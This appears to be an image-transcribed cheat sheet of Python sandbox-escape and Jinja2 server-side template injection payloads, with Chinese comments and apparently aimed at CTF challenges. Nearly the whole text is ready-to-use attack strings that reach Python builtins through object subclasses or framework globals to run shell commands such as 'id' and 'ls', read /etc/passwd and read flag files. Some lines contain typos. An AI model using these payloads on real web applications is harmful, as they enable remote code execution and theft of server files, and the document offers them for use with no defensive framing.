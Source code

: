 ```python
'''[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：'''
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
{}.__class__.__bases__[0].__subclasses__()[xx].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
{}.__class__.__bases__[0].__subclasses__()[xx].__init__.__globals__['__builtins__']['__import__']('os').system('ls')
{}.__class__.__bases__[0].__subclasses__()[xx].__init__.__globals__.__builtins__.__import__('os').popen('id').read()

{{''.__class__.__mro[2]__.__subclasses__()[xx]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
{{''.__class__.__mro__[2]__.__subclasses__()[xx]['load_moudule']("os")["popen"]("ls").read()}}
{{''.__class__.__mro__[2].__subclasses__()[xx]["get_data"](0,"/etc/passwd")}}



# python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}

#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

# 框架相关
{{url_for.__globals__['os'].popen('ls').read()}}
cycler               {{cycler.__init__.__globals__.os.popen('id').read()}}
joiner               {{joiner.__init__.__globals__.os.popen('id').read()}}
namespace            {{namespace.__init__.__globals__.os.popen('id').read()}}
lipsum               {{lipsum.__globals__['os']['popen']('ls').read()}}

{{sss.__init__.__globals__.__builtins__.open("/flag").read()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{request.application.__globals__['__builtins__']['__import__']('os').popen('ls').read()}}


# others
{{''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__'].eval("__import__('os').popen('type flag.txt').read()")}}
{{''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__'].open("flag.txt").read()}}
# 以下是一个整体
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("type flag.txt").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
```